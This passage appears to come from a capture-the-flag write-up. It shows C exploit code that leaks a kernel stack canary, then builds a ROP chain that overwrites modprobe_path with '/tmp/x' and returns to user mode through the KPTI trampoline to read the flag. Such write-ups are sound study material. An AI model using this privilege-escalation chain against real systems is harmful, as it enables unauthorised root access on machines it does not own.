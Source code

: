 ```c
        for (int i=1; i<0x1000/8; ++i) {
            int flag = 1;
            if ((buf[i] & 0xFF) != 0)
                flag = 0;

            if (flag) {
                for (int j=1; j<8; ++j) {
                    val[j] = (buf[i] >> j*8)&0xFF;
                    for (int l=0; l<j; ++l) 
                        if (val[j] == val[l])
                            flag = 0;
                }
            }

            if (flag) {
                canary = buf[i];
                printf("canary @ %p\n", canary);
                goto EXPLOIT;
            }
        }
    }
    
EXPLOIT:
    backup_rv();
    memset(buf, 0, 0x280);
    size_t val = 0x782f706d742f; // "/tmp/x"
    unsigned off = 0x20;
    buf[off++] = canary;
    for (int i=0; i<7; ++i) {
        buf[off++] = pop_rbx;
        buf[off++] = modprobe_path + i;
        buf[off++] = pop_rax;
        buf[off++] = (val & 0xFF) << 8;
        buf[off++] = write_byte_rbx_ah;
        val >>= 8;
    }
    buf[off++] = kpti_trampoline;
    buf[off++] = 0;
    buf[off++] = 0;
    buf[off++] = (unsigned long)get_flag;
    buf[off++] = rv.user_cs;
    buf[off++] = rv.user_rflags;
    buf[off++] = rv.user_rsp;
    buf[off++] = rv.user_ss;

    write(fd, &buf, 0x280);
    return 0;
}
```

![3.png](3.png)
*get flag on remote*
